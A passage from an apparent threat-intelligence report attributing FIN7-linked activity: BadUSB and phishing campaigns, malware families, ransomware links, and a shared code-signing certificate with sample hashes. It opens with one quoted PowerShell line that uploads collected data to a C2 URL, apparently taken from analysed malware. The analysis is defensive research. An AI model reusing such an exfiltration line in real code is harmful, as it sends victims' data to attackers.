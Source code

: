$_wc.UploadString($urlConsole, $theAnswer)           Malware code usage is sometimes considered a primary data point for some public threat attribution.  Code overlaps by themselves, without sufficient additional data points such as intrusion data and infrastructure, are not strong enough for us to fully assess that an UNC group should be merged. Throughout 2021 and well into 2022, we have identified and will continue to track multiple newly suspected FIN7 UNCs and their activity moving forward.Additional Recent Activity from Suspected FIN7 UNCsIn October 2021, Mandiant observed a campaign where actors mailed victim organizations “BadUSB” malicious USB devices, primarily targeting U.S.-based organizations. We attribute this campaign to UNC3319, a group which we suspect to be associated with FIN7 with low confidence.The USB hardware was programmed to download STONEBOAT, which ultimately installed the DICELOADER framework on the victim system. STONEBOAT is a previously unseen, .NET-based in-memory dropper which decrypts a shellcode payload embedded in it. The payload is then mapped into memory and executed. STONEBOAT was observed first loading an intermediary loader called DAVESHELL, which then executed the final DICELOADER payload. DAVESHELL is publicly available, open-source code for a launcher of embedded payloads. DAVESHELL is used by nearly 30 threat groups including FIN12; however, the implementation of DAVESHELL shellcode loading DICELOADER was unique to a small cluster of threat activity.Additionally, we’ve identified multiple phishing campaigns distributing BIRDWATCH that have leveraged compromised accounts on various email delivery and marketing platforms, including Maropost, ActiveCampaign, and Mailjet. We attribute this activity to UNC3381, which is suspected to be FIN7 with low confidence. UNC3381 was first observed in September 2021, but we’ve identified similar activity leveraging Mailjet dating back to late 2019, suspected to be UNC3381 with high confidence.Throughout their campaigns, UNC3381 has used nearly identical Quickbooks-themed invoice lures and leveraged the branding of the compromised account that they were sent from, providing additional legitimacy for their phishes. These emails contained a malicious link that goes through the analytics domain associated with the platform they were sent from, before redirecting to a page typically hosted on a compromised domain.Figure 25: UNC3381 Quickbooks-themed phishing emailUNC3381 has used multiple malware families in these campaigns, including WINGNIGHT and FLYHIGH, two different downloader families which we’ve only observed being used by UNC3381. WINGNIGHT is a WSF-based downloader that utilizes VBScript, and FLYHIGH is a downloader written in C using the Excel XLL SDK, but masquerades as using the Excel-DNA framework. In these campaigns, we observed both WINGNIGHT and FLYHIGH leading to BIRDWATCH, often leveraging additional compromised domains for both the download server and the BIRDWATCH C2 controller. We’ve observed limited overlaps between UNC3381 and FIN7 infrastructure as well, including the use of the same DNS provider and AS.FIN7 and RansomwareMandiant published finished intelligence in 2020 which outlined evidence of FIN7’s possible shift in monetization of intrusions from payment card data to extortion operations.  Although FIN7’s operations have shifted substantially when compared to their older activity, as of publishing this report, Mandiant has not attributed any direct deployment of ransomware to FIN7.  However, the possibility that FIN7 actors are engaging in ransomware operations is also substantiated by evidence outside of our intrusion data holdings and includes code usage, actor infrastructure, and trusted third party sources.In at least two incident response engagements in 2020, FIN7 intrusion operations were identified prior to ransomware encryption, including the use of MAZE and RYUK. Similarly in 2021, Mandiant attributed active FIN7 intrusion activity during an incident response engagement involving ALPHV ransomware. In all these cases, the ransomware deployment is currently attributed to separately tracked threat groups due to factors of the investigation and our visibility.In addition to evidence produced from intrusion data, secondary artifacts suggest FIN7 played a role in at least some DARKSIDE operations. A low global prevalence code signing certificate used by FIN7 in 2021 to sign BEACON and BEAKDROP samples was also used to sign multiple unattributed DARKSIDE samples recovered in the wild (Table 3). The specific mentioned code signing certificate used by FIN7 contained the SSL subject common name of “OASIS COURT LIMITED” (Figure 26).Figure 26: Code signing certificate used by FIN7, also used to sign multiple DARKSIDE ransomware samplesSerial Number:            e4:e7:95:fd:1f:d2:55:95:b8:69:ce:22:aa:7d:c4:9f        Signature Algorithm: sha256WithRSAEncryption        Issuer: C = GB, ST = Greater Manchester, L = Salford, O = Sectigo Limited, CN = Sectigo RSA Code Signing CA        Validity            Not Before: Dec 21 00:00:00 2020 GMT            Not After : Dec 21 23:59:59 2021 GMT        Subject: C = GB, postalCode = CO3 9FA, ST = Essex, L = Colchester, street = 10 Stoneleigh Park, O = OASIS COURT LIMITED, CN = OASIS COURT LIMITEDTable 3: Files signed with code certificateFile MD5Noteab29b9e225a05bd17e919e1d0587289eDNS BEACON1c3b19163a3b15b39ae00bbe131b499aDARKSIDE230a681ebbcdba7ae2175f159394d044DARKSIDEbf41fc54f96d0106d34f1c48827006e4DARKSIDEc4da0137cbb99626fd44da707ae1bca8DARKSIDE28e9581ab34297b6e5f817f93281ffacFIN7 BEACON38786bc9de1f447d0187607eaae63f11FIN7 BEACON6fba605c2a02fc62e6ff1fb8e932a935FIN7 BEAKDROPConclusionDespite indictments of members of FIN7 in 2018 and a related sentencing in 2021 announced by the U.S. Department of Justice, at least some members of FIN7 have remained active and continue to evolve their